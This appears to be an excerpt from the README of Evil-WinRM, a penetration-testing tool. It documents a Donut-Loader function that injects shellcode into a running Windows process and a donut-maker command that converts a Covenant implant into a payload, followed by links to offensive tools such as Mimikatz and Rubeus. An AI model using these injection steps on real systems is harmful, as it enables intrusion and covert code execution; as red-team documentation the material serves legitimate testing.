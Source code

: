  - Donut-Loader: allows to inject x64 payloads generated with awesome [donut] technique. No need to encode the payload.bin, just generate and inject!

```
*Evil-WinRM* PS C:\> Donut-Loader
.SYNOPSIS
    Donut Loader.
    PowerShell Function: Donut-Loader
    Author: Luis Vacas (CyberVaca)
    Based code: TheWover

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION

.EXAMPLE
    Donut-Loader -process_id 2195 -donutfile /home/cybervaca/donut.bin
    Donut-Loader -process_id (get-process notepad).id -donutfile /home/cybervaca/donut.bin

    Description
    -----------
    Function that loads an arbitrary donut :D
```

You can use this [donut-maker] to generate the payload.bin if you don't use Windows.
This script use a python module written by Marcello Salvati ([byt3bl33d3r]). It could be installed using pip: `pip3 install donut-shellcode`

```
python3 donut-maker.py -i Covenant.exe

   ___  _____
 .'/,-Y"     "~-.
 l.Y             ^.
 /\               _\_      Donuts!
i            ___/"   "\
|          /"   "\   o !
l         ]     o !__./
 \ _  _    \.___./    "~\
  X \/ \            ___./
 ( \ ___.   _..--~~"   ~`-.
  ` Z,--   /               \
    \__.  (   /       ______)
      \   l  /-----~~" /
       Y   \          /
       |    "x______.^
       |           \
       j            Y



[+] Donut generated successfully: payload.bin
```


[Cybervaca]: https://github.com/cybervaca
[OscarAkaElvis]: https://github.com/OscarAkaElvis
[Jarilaos]: https://github.com/jarilaos
[arale61]: https://github.com/arale61
[Vis0r]: https://github.com/vmotos
[Alamot]: https://github.com/Alamot
[3v4Si0N]: https://github.com/3v4Si0N
[Borch]: https://github.com/Stoo0rmq
[donut]: https://github.com/TheWover/donut
[donut-maker]: https://github.com/Hackplayers/Salsa-tools/blob/master/Donut-Maker/donut-maker.py
[byt3bl33d3r]: https://twitter.com/byt3bl33d3r
[WinRb]: https://github.com/WinRb/WinRM/graphs/contributors
[TheWover]: https://github.com/TheWover
[Sh11td0wn]: https://github.com/Sh11td0wn
[ticketer.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
[ticket_converter.py]: https://github.com/Zer1t0/ticket_converter
[Rubeus]: https://github.com/GhostPack/Rubeus
[Mimikatz]: https://github.com/gentilkiwi/mimikatz
[cheatsheet]: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
[Dockerhub]: https://hub.docker.com/r/oscarakaelvis/evil-winrm
[Hackplayers]: https://www.hackplayers.com/
[@CyberVaca_]: https://twitter.com/CyberVaca_
[@OscarAkaElvis]: https://twitter.com/OscarAkaElvis
[@_Laox]: https://twitter.com/_Laox
[@arale61]: https://twitter.com/arale61
[Version-shield]: https://img.shields.io/badge/version-4.0-blue.svg?style=flat-square&colorA=273133&colorB=0093ee "Latest version"
[Ruby2.3-shield]: https://img.shields.io/badge/ruby-2.3%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff0000 "Ruby 2.3 or later"
[License-shield]: https://img.shields.io/badge/license-LGPL%20v3%2B-blue.svg?style=flat-square&colorA=273133&colorB=bd0000 "LGPL v3+"
[Docker-shield]: https://img.shields.io/docker/automated/oscarakaelvis/evil-winrm.svg?style=flat-square&colorA=273133&colorB=a9a9a9 "Docker rules!"
[Gem-Version]: https://badge.fury.io/rb/evil-winrm.svg "Ruby gem"